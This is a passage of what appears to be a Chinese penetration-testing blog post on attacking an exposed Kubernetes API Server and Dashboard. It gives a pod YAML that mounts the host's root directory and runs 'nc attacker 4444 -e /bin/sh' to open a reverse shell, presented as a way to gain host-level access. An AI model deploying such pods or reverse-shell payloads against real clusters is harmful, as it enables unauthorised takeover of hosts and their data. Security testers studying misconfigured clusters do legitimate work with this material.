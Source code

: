 2）Secure Port

*   默认端口 6443，修改标识—secure-port
*   默认 IP 是首个非本地主机的网络接口，修改标识—bind-address
*   HTTPS 服务。设置证书和秘钥的标识，–tls-cert-file，–tls-private-key-file
*   认证方式，令牌文件或者客户端证书
*   使用基于策略的授权方式

访问 Rest API, 会返回可用的 API 列表，如下所示：

![](https://blog.riskivy.com/wp-content/uploads/2019/02/4.png)

如果 Kubernetes API Server 配置了 Dashboard, 通过路径 / ui 即可访问

![](https://blog.riskivy.com/wp-content/uploads/2019/02/5.png)

该操作界面可以创建、修改、删除容器，查看日志等。我们可以编写 yaml 文件，构造 pod 来获取命令执行。如下提供了三种部署 pod 的方式

![](https://blog.riskivy.com/wp-content/uploads/2019/02/6.png)

输入文本创建一个 pod，将节点的根目录挂载到容器的 / mnt 目录。获取到宿主机权限

![](https://blog.riskivy.com/wp-content/uploads/2019/02/7.png)

创建 pod 过程中，同样可命令执行反弹 shell

```
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - name: busybox
    image: busybox:1.29.2
    command: \["/bin/sh"\]
    args: \["-c", "nc attacker 4444 -e /bin/sh"\]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory


```

进入容器组，打开命令执行窗口

![](https://blog.riskivy.com/wp-content/uploads/2019/02/8.png)

![](https://blog.riskivy.com/wp-content/uploads/2019/02/9.png)
